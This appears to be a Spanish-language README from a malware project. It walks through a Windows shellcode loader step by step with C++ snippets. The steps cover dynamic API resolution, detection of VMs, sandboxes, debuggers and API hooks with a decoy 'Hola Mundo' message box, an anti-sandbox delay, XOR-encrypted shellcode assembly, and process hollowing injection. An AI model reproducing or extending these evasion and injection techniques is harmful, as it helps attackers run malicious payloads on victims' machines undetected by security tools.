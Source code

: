 ### 1. Inicialización
```cpp
int main() {
    // Inicializar las APIs
    if (!InitializeAPIs()) {
        std::cout << "Error al inicializar las APIs" << std::endl;
        return 0;
    }
    // ...
}
```

El malware comienza cargando dinámicamente todas las APIs necesarias mediante la función `InitializeAPIs()`, que utiliza técnicas de resolución de símbolos sin llamar directamente a `GetProcAddress`.

### 2. Detección de Entorno Hostil
```cpp
if (IsRunningInVM() || IsRunningInSandbox() || APIs.IsDebuggerPresent() || 
    CheckRemoteDebuggerPresent() || DetectAPIHooks()) {
    // Si estamos en un entorno de análisis, ejecutar codigo benigno
    APIs.MessageBoxA(NULL, "Hola Mundo", "Mensaje", MB_OK);
    return 0;
}
```

Realiza una serie de comprobaciones para determinar si se está ejecutando en un entorno de análisis. Si detecta alguna anomalía, ejecuta código benigno para evitar la detección.

### 3. Retraso Anti-Sandbox
```cpp
AntiSandboxDelay();
```

Implementa un retraso variable en la ejecución para evadir análisis automatizados de sandboxes, que suelen tener límites de tiempo.

### 4. Preparación del Payload
```cpp
// Combinar partes del shellcode
unsigned char* combinedShellcode = new unsigned char[shellcodeSize];
CombineShellcode(combinedShellcode);

// Encriptar el shellcode combinado
XorCrypt(combinedShellcode, shellcodeSize, encryptionKey, sizeof(encryptionKey));
```

Combina las múltiples partes del shellcode y lo encripta para evitar su detección.

### 5. Inyección del Payload
El malware implementa múltiples técnicas de inyección, intentándolas en orden:

#### 5.1 Process Hollowing
```cpp
if (ProcessHollowing(combinedShellcode, shellcodeSize)){
    std::cout << "PH completado" << std::endl;
    return 0;
}
```
